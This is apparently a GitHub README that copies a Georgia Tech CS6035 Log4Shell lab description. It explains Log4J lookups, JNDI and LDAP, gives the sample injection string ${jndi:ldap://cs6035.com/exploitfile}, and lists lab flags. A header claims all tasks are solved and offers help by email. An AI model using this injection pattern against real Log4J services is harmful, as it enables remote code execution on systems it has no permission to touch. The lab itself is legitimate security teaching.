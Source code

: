# CS6035-Log4Shell
CS6035 Project Log4Shell
# All Tasks successfully solved , send an email if you need any help: mikezczyyhm1@outlook.com
![image](https://github.com/mikezczyyhm/CS6035-Log4Shell/assets/164445328/deedead0-8647-4721-b476-57048efd274e)

Log4Shell
Important Disclaimer:
THIS IS A CURRENT REAL WORLD CRITICAL VULNERABILITY. ATTEMPTING THIS ON REAL APPLICATIONS COULD PUT YOU IN VIOLATION OF THE LAW AND GEORGIA TECH IS NOT RESPONSIBLE.
Learning Goals of this Project:
Exploring a real world critical Java exploit in the Log4J logger: Log4Shell
[NIST CVE Overview] [Randori: What is Log4Shell]

Important Reference Materials:
General Project Introduction This is a general overview. Some details may change each semester (i.e., login credentials)
LDAP server used to run the exploit.
Log4JExploit Intro
How Log4Shell Works
Log4J Documentation
Log4Shell Example
Helpful Linux Networking Commands
NCAT Command
Java Unmarshaller Security
A Journey From JNDI/LDAP Manipulation To RCE
Hands on Introduction to Log4Shell exploit in general (not this project but helpful)
If you have no experience in Java, Log4j/logging, RESTful applications, JNDI, LDAP, we STRONGLY encourage you to do research into the topics.
A Real World Recent Example of This Exploit and Its Dangers
Background
Log4J is a very popular open-source framework that allows application developers to log important messages such as program flow, program state, exceptions, etc. These messages can include user input, dynamic data, database results, etc.

Java Naming and Directory Interface (JNDI) creates a way for Java Objects to be looked up at runtime. There are many directory interfaces that provide different ways to lookup files. A common example is a database connection pool so that applications deployed on a server can get the connections they need by only needing to know the JNDI name instead of having to have the connection details. You can use Java Serialization to store the byte array representation of an object to store objects in a directory/naming service. JNDI uses Naming References if the object is too large such as “ldap://server/location”

Where this comes into play in this exploit, is the Lightweight Directory Access Protocol (LDAP) which is not specific to Java. LDAP provides the communication language that is required to receive and send information from directory services. It can be used for authentication like sending usernames/passwords or retrieving object data through a url from another server.

To tie this into Log4J, Log4J performs lookups which allow for string substitution of certain strings. These are in the form of ${prefix:name} i.e. a common one would be ${java:runtime} and running this would produce “Running Java version 1.8.0_20”. Here is where the JNDI and LDAP come into play. ${jndi:<lookup>} is a valid lookup expression recognized by the lookup by Log4J.

A malicious user could specify a valid lookup protocol such as LDAP, RMI, or DNS in the JNDI lookup and direct the Log4J lookup to their malicious server/file. An example could be ${jndi:ldap://cs6035.com/exploitfile} which would load data from that domain if a connection can be established. Attackers can even get environment variables if RCE is disabled and learn about the server/server environment. Often, HTTP requests log header information, query parameters, path parameters, and more which allow a vector for this attack to take place. With this background, now we are ready to start this lab.

Here is a visual of the Log4j exploit and how it is accomplished (you can zoom in if this is too small via ctrl + scroll):

alt text

TABLE OF CONTENTS
FAQ
Setup
Intro Flag
Flag 1: Environment Echo
Flag 2: Get a Shell
Flag 3: Bypass Auth
Flag 4: Infiltrate Users
Flag 5: CMD and Concat
Flag 6: PubSub
Submission
